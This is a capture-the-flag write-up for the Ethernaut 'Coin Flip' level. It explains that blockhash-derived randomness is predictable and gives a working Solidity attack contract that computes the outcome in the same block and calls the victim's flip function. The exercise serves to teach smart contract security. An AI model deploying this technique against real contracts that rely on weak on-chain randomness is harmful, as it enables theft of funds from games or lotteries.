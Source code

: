 # Level 3: [Coin Flip](https://ethernaut.openzeppelin.com/level/0x9240670dbd6476e6a32055E52A0b0756abd26fd2)

## Level objectives:
1. Guess the correct output 10 times.

## Steps:
- The game uses the uint of blockhash / constant as source of random numbers.
```sol
uint256 coinFlip = blockValue / FACTOR;
bool side = coinFlip == 1 ? true : false;
```
- Such numbers can be manipulated/front-runned and are not a good source of randomness.
- We write a contract to attack the victim contract with the result we compute.
- Why contract? So that the txs are executed in the same block.
```sol
//SPDX-License-Identifier: MIT
pragma solidity ^0.8;

interface CoinFlip {
    function flip(bool) external returns (bool);
}

contract CoinFlipGuess {
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
    CoinFlip victim = CoinFlip(0xeDB0378D4d475f03e01C9802Ba273140e425DC10);

    function determineFlipOutcome() public returns (bool) {
        uint256 blockValue = uint256(blockhash(block.number - 1));
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;

        return victim.flip(side);
    }
}
```
